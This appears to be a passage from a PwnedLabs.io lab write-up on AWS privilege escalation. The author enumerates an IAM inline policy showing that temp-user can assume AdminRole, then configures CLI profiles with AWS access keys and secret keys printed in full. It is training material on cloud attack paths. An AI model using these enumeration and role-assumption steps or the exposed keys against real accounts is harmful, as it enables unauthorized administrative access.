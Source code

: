   

Enumerating iam inline policy reveals that the user `temp-user`  attached to the policy called `test-temp-user`  where as the policy have the permission to allow the user to assume as `AdminRole` 

  

```sh
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws iam list-user-policies --user-name temp-user
{
"PolicyNames": [
"test-temp-user"
]
}

nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws iam get-user-policy --user-name temp-user --policy-name test-temp-user
{
"UserName": "temp-user",
"PolicyName": "test-temp-user",
"PolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Sid": "VisualEditor0",
"Effect": "Allow",
"Action": "sts:AssumeRole",
"Resource": "arn:aws:iam::107513503799:role/AdminRole"
}
]
}
}
```

  

To assume the role, run the aws configure command with the AccessKeyId and SecretAccessKey from the previous step. To set the token, run the command: `aws configure set aws_session_token "<SessionToken>"`. With that completed, we can run the command aws sts get-caller-identity to verify our new context.

  

```sh
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure --profile MySession
AWS Access Key ID [None]: ASIARSCCN4A36SPPKZMQ
AWS Secret Access Key [None]: i3z3fbG/LpkALfH1NYAL8V471hMLsunEvsVxnGHu
Default region name [None]:
Default output format [None]:
nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws sts get-caller-identity
{
"UserId": "AIDARSCCN4A3X2YWZ37ZI",
"Account": "107513503799",
"Arn": "arn:aws:iam::107513503799:user/temp-user"
}


nithi@DESKTOP-BS5JG3U:~/workspace/Learning/PwnedLabs.io/Breach-In-The-Cloud$ aws configure --profile MySession
AWS Access Key ID [****************KZMQ]: ASIARSCCN4A36SPPKZMQ
AWS Secret Access Key [****************nGHu]: i3z3fbG/LpkALfH1NYAL8V471hMLsunEvsVxnGHu
Default region name [us-east-1]:
Default output format [None]:
```